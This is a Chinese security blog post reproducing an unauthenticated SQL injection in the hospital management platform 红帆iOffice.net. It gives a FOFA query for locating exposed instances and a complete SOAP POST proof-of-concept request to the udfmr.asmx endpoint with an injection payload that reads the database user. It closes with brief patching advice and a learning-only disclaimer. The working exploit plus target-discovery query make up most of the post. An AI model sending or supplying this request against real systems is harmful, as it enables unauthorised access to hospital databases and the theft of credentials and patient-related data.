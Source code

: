 #  【Web渗透】SQL注入漏洞复现   
Whoami  晨曦安全团队   2023-11-25 23:59  
  
### 0x01 产品简介  
  
  红帆iOffice  
.net  
从最早满足医院行政办公需求（传统OA），到目前融合了卫生主管部门的管理规范和众多行业特色应用，是目前唯一定位于解决医院综合业务管理的软件，是最符合医院行业特点的医院综合业务管理平台，是成功案例最多的医院综合业务管理软件。  
### 0x02 漏洞概述  
  
 红帆iOffice.net udfmr.asmx接口处存在  
SQL注入漏洞  
，未经身份认证的攻击者可通过该漏洞获取数据库敏感信息及凭证，最终可能导致服务器失陷。  
### 0x03 复现环境  
  
FOFA：app="红帆-ioffice"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyiaaKUK5DRNYDiayj5Ab7Pwj9RJfCkgcqKqYUSeK1lMCbGfpKOrlfiaHStpIqggISGDnGgnNJf5TQXxA/640?wx_fmt=png&from=appmsg "")  
###  0x04 漏洞复现  
```
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyiaaKUK5DRNYDiayj5Ab7Pwj9mROiaCx52ZyzzlxqX72ro6y1yL7HMviasibXAeDwPiaKk0IOVQExjUjrPg/640?wx_fmt=png&from=appmsg "")  
  
 出现以上这种情况则可能存在漏洞  
  
PoC  
```
```  
```
POST /iOffice/prg/set/wss/udfmr.asmx HTTP/1.1



Host: your-ip



Content-Type: text/xml; charset=utf-8



SOAPAction: "http://tempuri.org/ioffice/udfmr/GetEmpSearch"



 



<?xml version="1.0" encoding="utf-8"?>



<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">



  <soap:Body>



    <GetEmpSearch xmlns="http://tempuri.org/ioffice/udfmr">



      <condition>1=user_name()</condition>



    </GetEmpSearch>



  </soap:Body>



</soap:Envelope>
```  
```
```  
  
查询当前数据库用户  
  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyiaaKUK5DRNYDiayj5Ab7Pwj9nH5icqW3gIN7k8WL4pr5icmWRJxxPnLVI0LsZ91zJxWbcdicX95mqCDyQ/640?wx_fmt=png&from=appmsg "")  
###  0x05 修复建议  
  
 限制访问来源地址，如非必要，不要将系统开放在互联网上。  
  
 升级至安全版本或打补丁。  
```
文章来源于互联网，只做学习交流，如有侵权请联系删除！原文链接：https://blog.csdn.net/qq_41904294/article/details/132365842
```  
  
  
